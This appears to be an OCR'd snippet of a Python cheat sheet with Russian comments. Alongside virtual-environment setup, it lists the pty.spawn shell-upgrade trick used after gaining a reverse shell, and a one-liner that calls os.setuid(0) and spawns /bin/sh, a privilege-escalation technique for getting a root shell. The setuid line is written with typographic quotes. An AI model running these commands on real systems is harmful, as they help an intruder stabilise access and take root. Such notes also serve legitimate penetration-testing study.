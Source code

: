 # Python

# Активировать виртуальную среду


python3 -m venv venv

source venv/bin/activate

# получение виртуальной оболочки внутри текущей сессии

python3 -c 'import pty;pty.spawn("/bin/bash")'

python -c 'import pty;pty.spawn("/bin/bash")'

export TERM=xterm

# выполнение команд оси

./python3.8 -c “import os; os.setuid(0), os.system(‘/bin/sh’)”
